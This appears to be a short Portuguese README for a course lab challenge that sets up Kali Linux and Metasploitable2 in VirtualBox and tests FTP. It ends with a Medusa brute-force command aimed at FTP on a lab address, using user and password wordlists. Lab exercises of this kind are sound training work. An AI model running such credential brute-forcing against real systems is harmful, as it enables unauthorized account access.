 # DIO_Desafio_Kali_Medusa
realizado o download das ISOS do kali linux e metasploitable2;

realizada a configuração das máquinas virtuais no virtualbox;

realizado o teste de conectividade entre as duas vms;

realizado teste de ftp;

comando para força bruta no medusa: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
